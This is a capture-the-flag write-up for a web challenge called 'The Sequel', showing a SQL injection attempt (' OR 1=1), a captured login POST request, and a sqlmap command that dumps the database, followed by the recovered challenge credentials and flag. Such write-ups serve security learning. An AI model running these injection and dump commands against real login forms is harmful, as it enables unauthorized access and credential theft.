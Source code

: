# The Sequel

## By Om Honrao


<p align="center">
  <img src="Chall.png" alt="Description"/>
</p>

## Hint:-
```
As the name suggests, this is a classic SQL injection vulnerability. You just need the password for the user stored in db. Ever heard about the EXTRACTVALUE function in SQL? Maybe use it to extract the password from our DB.
```
# Walkthrough
Well this chall also has a login page but has sqli. I tried some common sql injection like
```
' OR 1=1
```
etc, vut was giving syntax error. Then I took permission from admin that can i use sqlmap. He said yes. So now this chall was easy to complete.
I made a request.txt file containing following thing:-

```
POST /web/1/login.php HTTP/1.1
Host: web.ctf.devclub.in
Connection: close
Content-Length: 27
Cache-Control: max-age=0
sec-ch-ua: ";Not A Brand";v="99", "Chromium";v="88"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
Origin: https://web.ctf.devclub.in
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://web.ctf.devclub.in/web/1/login.php
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: PHPSESSID=ssnmqep46b922cbg99kvh3grfn

username=test&password=test
```

I got this from burp.

Now just use sqlmapin following way:-
```bash
$ sqlmap -r request.txt -p username --dump
```
This will do its work now it will ask few questions i just pressed yes(you can press no at certain step if you want to).

At last it will give you a table:-
<p align="center">
  <img src="sqlmap.png" alt="Description"/>
</p>

This tool worked just fine and gave the credentials of the user we need:-

```
Usename:- as1605
Password:- wildspirit
```
Now if we login with that account
At last it will give you a table:-
<p align="center">
  <img src="user.png" alt="Description"/>
</p>

We get the flag
```
CTF{7ql_1s_n0t_3asy_8_all}
```
Well i guess my write up explained everything it needed.
